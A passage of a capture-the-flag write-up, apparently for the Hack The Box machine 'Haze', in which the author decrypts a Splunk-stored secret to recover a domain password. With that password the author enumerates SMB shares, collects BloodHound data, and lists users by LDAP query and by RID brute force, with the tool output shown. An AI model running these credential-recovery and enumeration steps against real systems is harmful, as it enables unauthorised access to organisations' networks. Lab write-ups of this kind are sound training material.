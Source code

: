 Then we use this tool called splunksecrets to decrypt the hash. And that gives us `paul.taylor`.
```bash
splunksecrets splunk-decrypt --ciphertext '$7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY=' -S splunk.secret
# Ld@p_Auth_Sp1unk@2k24
netexec smb dc01.haze.htb -u 'paul.taylor' -p 'Ld@p_Auth_Sp1unk@2k24' --shares
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.61     445    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24
```

Let's check bloodhound:
```bash
bloodhound-ce-python -c All -u paul.taylor -p 'Ld@p_Auth_Sp1unk@2k24' -ns $(cat ip.txt) --zip -d haze.htb -dc dc01.haze.htb
```

Paul is a member of the certificate service but nothing other than that.
![haze3](/assets/img/haze3.png)

Trying to enumerate users with netexec only shows one. That doesn't look correct.
```bash
netexec ldap haze.htb -u 'paul.taylor' -p 'Ld@p_Auth_Sp1unk@2k24' --users
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.61     389    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24
LDAP        10.10.11.61     389    DC01             [*] Enumerated 1 domain users: haze.htb
LDAP        10.10.11.61     389    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-
LDAP        10.10.11.61     389    DC01             paul.taylor                   2025-06-24 01:38:14 0
```

Trying RID brute works.
```bash
netexec smb haze.htb -u 'paul.taylor' -p 'Ld@p_Auth_Sp1unk@2k24' --rid-brute
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
SMB                      10.10.11.61     445    DC01             500: HAZE\Administrator (SidTypeUser)
SMB                      10.10.11.61     445    DC01             501: HAZE\Guest (SidTypeUser)
SMB                      10.10.11.61     445    DC01             502: HAZE\krbtgt (SidTypeUser)
SMB                      10.10.11.61     445    DC01             513: HAZE\Domain Users (SidTypeGroup)
SMB                      10.10.11.61     445    DC01             525: HAZE\Protected Users (SidTypeGroup)
```